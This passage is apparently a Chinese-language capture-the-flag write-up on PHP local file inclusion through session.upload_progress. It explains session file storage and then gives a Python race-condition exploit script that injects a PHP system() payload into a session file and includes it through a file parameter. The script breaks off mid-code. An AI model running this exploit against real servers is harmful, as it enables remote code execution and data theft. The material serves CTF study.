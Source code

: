 通过上图和几个默认选项的有关介绍就想是否可以利用session.upload_progress来写入恶意语句，然后进行包含文件，但前提是需要知道session的存储位置

这就需要先了解一下PHP中session的存储机制

> php中的session中的内容并不是存储在内存中，而是以文件的方式进行存储，存储方式是由配置项session.save_handler来进行确定的,默认便是以文件的方式进行存储，存储文件的名字便是由sess_sessionid来进行命名的，文件的内容便是session值序列化之后的内容。至于存储路径便是由配置项session.save_path来进行决定的。

一般session的存储路径都不会怎么去改，默认的便是：

```
linux:
/tmp
或
/var/lib/php/session
Windows:
C:\WINDOWS\Temp
```

存储路径知道了，但是还是有一个问题，便是代码中没有session_start()函数，怎么样创建出session文件那，其实如果配置项`session.auto_start=On` 是打开的，那么PHP在接收请求的时候便会自动化Session，不再需要执行该函数，但默认都是关闭的，在session中还有一个默认选项，便是上面提到的`session.use_strict_mode`默认值是0，用户可以自己定义SessionID。如：

```
Cookie中设置:
PHPSESSID=Sn0w
PHP便会在服务器上创建一个文件(默认路径)
/tmp/sess_Sn0w
```

即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有`ini.get("session.upload_progress.prefix")`+由我们构造的`session.upload_progress.name`值组成，最后被写入sess_文件里。

但还有一个问题没有解决，即使是写进去了默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容会立即被清空，所以这里就需要去使用多线程同时进行写和读，进行条件竞争，在session文件清除前进行包含利用。

```
# -*- coding: utf-8 -*-
import requests
import io
import threading

url = 'http://40902305-6448-4874-b65d-79adb550fd6d.chall.ctf.show/'
sessID = 'Sn0w'

def write(session):
    #判断event的标志是否为True
    while event.isSet():
        #上传文件要大一点,更有利于条件竞争
        f = io.BytesIO(b'Sn0w' * 1024 * 50)
        reponse = session.post(
            url,
            cookies=`{`'PHPSESSID': sessID`}`,
            data=`{`'PHP_SESSION_UPLOAD_PROGRESS':'&lt;?php system("cat *.php");?&gt;'`}`,
            files=`{`'file':('text.txt',f)`}`
        )
def read(session):
    while event.isSet():
        reponse = session.get(url+ '?file=/tmp/sess_`{``}`'.format(sessID))
        if 'text' in reponse.text:
            print(reponse.text)
            #将event的标志设置为False，调用wait方法的所有线程将被阻塞；
            event.clear()
        else:
            print('[*]continued')

if __name__ == '__main__':
    #通过threading.Event()可以创建一个事件管理标志，该标志（event）默认为False
    event = threading.Event()
    #将event的标志设置为True，调用wait方法的所有线程将被唤醒；
```